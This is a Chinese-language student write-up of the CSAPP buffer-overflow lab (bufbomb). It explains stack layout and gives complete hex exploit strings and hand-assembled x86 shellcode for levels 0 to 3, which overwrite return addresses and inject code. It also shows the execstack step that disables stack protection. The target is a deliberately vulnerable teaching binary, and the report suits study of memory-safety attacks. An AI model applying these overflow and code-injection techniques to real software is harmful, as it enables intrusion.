#! https://zhuanlan.zhihu.com/p/629546323
# csapp lab4 bufferlab

实验完成时间：2023/5/13-2023/5/14，耗时约8h  
实验报告撰写时间：2023/5/15


实验内容：  
利用输入缓冲区的溢出漏洞，将攻击代码注入到当前程序的栈帧中，使得程序执行我们期望的过程。


实验代码：
1. makecookie：每个人使用自己的学号生成不同的cookie
2. bufbomb：我们要攻击的可执行程序
3. sendstring：字符格式转换


关于缓冲区攻击的原理：  
bufbomb中包含一个getbuf程序，实现如下：
```c
1 int getbuf() 
2 { 
3  	char buf[12]; 
4 	Gets(buf); 
5 	return 1; 
6 }
```
这段程序没有对buf进行越界检查，超过12个字符就会溢出到栈帧上，从而改变程序执行过程。栈帧结构如下所示：  



关于sendstring程序：  
字符格式转换的程序，因为我们需要的二进制串可能无法用键盘输入。  
输入是一串十六进制数（每两位之间用空格隔开），输出是对应的二进制序列。


## level 0：Candle

在bufbomb中，函数``test``调用函数``getbuf``，如果正常执行，``getbuf``返回时执行第8行：

现在，我们希望让bufbomb执行函数smoke，这个函数在正常情况下不会被执行，我们希望在``getbuf``返回时跳转到``smoke``函数执行：



这道题的难度相当于本实验的热身题，只要搞清楚栈帧结构就可以  
  
从图中可以看出，buffer占12B，old ebp占4B，我们希望修改的return address占4B，因此输入应该是一个（12+4+4）B的串，前12B内容只要不是0x0A就行（在ASCII中代表换行'\n'，如果``Gets``函数遇到这个字符会认为它是字符串末尾），最后4B填入``smoke``起始地址即可。  
从汇编代码可以查到``smoke``函数的起始地址为``0x08048e20``，因此本题的一个可行解如下，注意地址要按小端来写：
```
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 20 8e 04 08
```



## level 1: Sparkler
目标：跳转到``fizz``函数，且输入参数应为自己学号生成的cookie：  
  
让程序跳转到``fizz``函数的思路同level 0一样，所以我们下面研究一下传参过程。  
课本上讲的传参方式：前6个参数通过寄存器来传递，多于6个的参数通过栈来传递。但在本实验中，所有传参过程都通过栈来传递。  
分析一下栈帧变化过程。结合汇编代码不难看出，``fizz``函数的参数存放在ebp+0x8的位置。  
  
然后验证一下我们的想法，我们希望参数是cookie的值，因此要将这个值注入：  
  
给出一个可行的答案：（12+4）B+``fizz``起始地址+4B+cookie  
```
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 c0 8d 04 08 00 00 00 00 69 3c f4 29
```
顺利通过：  



## level 2:Firecracker

首先这个题要使用execstack工具解除栈执行限制，且必须要在gdb模式下才有效，否则一直会报segment fault（可恶我当时在这里耽误了好久，后悔没有多仔细看两遍实验手册）
```
sudo apt-get install execstack
execstack -s bufbomb
```


第三个实验的目标：修改全局变量``global_val``，然后跳转到``bang``函数。在前面两个题中，我们直接将前16个字节直接填0，现在想是否可以使用这16个字节对全局变量``global_val``进行修改呢？  
  


通过汇编代码可以看出，``global_val``存放在``0x804a1dc``处，cookie存放在``0x804a1cc``处，根据这个写一段想要执行的汇编码：  
```
mov 0x804a1cc,%eax
mov %eax,0x804a1dc
push $0x08048d60
ret
```
第一个mov指令将cookie的值存入\$eax寄存器中；第二个mov指令将\$eax寄存器中的值存到``global_val``的位置。  
push指令将``bang``函数的起始地址压栈，ret指令来实现跳转的效果。  
将自己写的汇编码保存，通过gcc将汇编代码编译成机器码，再将机器码读取：  
```
gcc -m32 -c fire-code.s
objdump -d fire-code.o > fire-code.d
```

这样我们就得到了需要的攻击指令机器码，正好16字节。下面在这段字符串后面再加上buffer的首地址，覆盖原来的返回地址，使程序跳转到攻击代码运行，下面是答案：  
```
a1 cc a1 04 08 a3 dc a1 04 08 68 60 8d 04 08 c3 1c b8 ff ff
```


测试通过：  



## level 3: Dynamite

目标：希望``getbuf``结束后回到``test``原本位置，并将cookie作为返回值返回。过程中需要将``getbuf``的ebp复原，保证退出攻击后的栈帧还原。  
  


查看一下正常返回的ebp：``0xffffb848``
cookie值为：``0x29f43c69``
编写汇编码，直接将cookie值存入\$eax寄存器：  
```
mov $0x29f43c69,%eax
push $0x804901e
ret
```
得到机器码：  

得到的机器码总共11B，补全12B后还原ebp，再用buffer起始地址覆盖返回地址，得到最终的攻击代码：
```
b8 69 3c f4 29 68 1e 90 04 08 c3 00 48 b8 ff ff 1c b8 ff ff
```
测试通过：
